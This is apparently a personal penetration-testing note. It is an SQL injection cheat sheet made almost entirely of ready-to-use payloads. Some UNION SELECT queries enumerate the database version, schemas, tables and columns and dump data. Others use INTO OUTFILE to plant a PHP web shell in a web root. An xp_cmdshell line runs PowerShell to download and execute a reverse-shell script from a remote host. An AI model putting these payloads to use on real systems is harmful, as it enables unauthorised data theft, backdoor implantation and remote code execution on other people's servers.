 Check out:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.exploit-db.com/papers/13650
[https://www.imperva.com/learn/application-security/sql-injection-sqli/](https://www.imperva.com/learn/application-security/sql-injection-sqli/)
![[Pasted image 20220712135953.png]]
Retrieve database version:
```SQL
UNION ALL SELECT NULL, version() -- -
```
List the databases:
```SQL
UNION ALL SELECT NULL, concat(schema_name) FROM information_schema.schemata -- -
```
Retrieve table names:
```SQL
UNION ALL SELECT NULL, concat(table_name) FROM information_schema.TABLES WHERE table_schema=database() -- -
```
Retrieve column names:
```SQL
UNION ALL SELECT NULL, concat(column_name) FROM information_schema.COLUMNS WHERE table_schema=database() -- -
```
Retrieve data:
```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM table1 -- -
```
Retrieve data from different database:
```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM databaseName.table1 -- -
```
Using INTO OUTFILE to create a malicious PHP file:
```SQL
http://$TARGET/debug.php?id=1 union all select 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
```SQL
http://$TARGET/debug.php?id=1 UNION SELECT '<?php echo shell_exec($_GET[\'cmd\']); ?>', null INTO OUTFILE '/var/www/cmd.php' #
```
Windows box cmdshell trick:
```SQL
xp_cmdshell "powershell -IEX(New-Object Net.WebClient).DownloadString('http://$TARGET/Invoke-PowerShellTcp.ps1')"
```